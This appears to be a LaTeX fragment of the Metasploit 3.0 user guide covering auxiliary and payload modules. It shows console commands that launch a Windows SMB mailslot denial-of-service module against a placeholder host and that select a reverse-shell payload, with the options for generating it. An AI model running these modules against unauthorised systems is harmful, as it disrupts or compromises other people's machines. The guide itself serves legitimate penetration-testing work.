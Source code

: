 \documentclass{report}
\begin{document}
	\section{Auxiliary Modules}

\par
Metasploit 3.0 supports the concept of auxiliary modules which can be used to
perform arbitrary, one-off actions such as port scanning, denial of service, and
even fuzzing.
	
		\subsection{Running an Auxiliary Task}

\par
Auxiliary modules are quite a bit similar to exploit modules. Instead of having
targets, they have actions, which are specified through the \texttt{ACTION}
option. To run an auxiliary module, you can either use the \texttt{run} command,
or you can use the \texttt{exploit} command -- they're both the same thing.

\begin{verbatim}
msf > use dos/windows/smb/ms06_035_mailslot
msf auxiliary(ms06_035_mailslot) > set RHOST 1.2.3.4
RHOST => 1.2.3.4
msf auxiliary(ms06_035_mailslot) > run
[*] Mangling the kernel, two bytes at a time...
\end{verbatim}

	\section{Payload Modules}

\par
Payload modules encapsulate the arbitrary code (shellcode) that is executed as
the result of an exploit succeeding. Payloads typically build a communication
channel between Metasploit and the victim host.

		\subsection{Generating a Payload}

\par
The console interface supports generating different forms of a payload. This is
a new feature in Metasploit 3.0. To generate payloads, first select a payload
through the \texttt{use} command.

\begin{verbatim}
msf > use windows/shell_reverse_tcp
msf payload(shell_reverse_tcp) > generate -h
Usage: generate [options]

Generates a payload.

OPTIONS:

    -b <opt>  The list of characters to avoid: '\x00\xff'
    -e <opt>  The name of the encoder module to use.
    -h        Help banner.
    -o <opt>  A comma separated list of options in VAR=VAL format.
    -s <opt>  NOP sled length.
    -t <opt>  The output type: ruby, perl, c, or raw.

msf payload(shell_reverse_tcp) >
\end{verbatim}
\end{document}
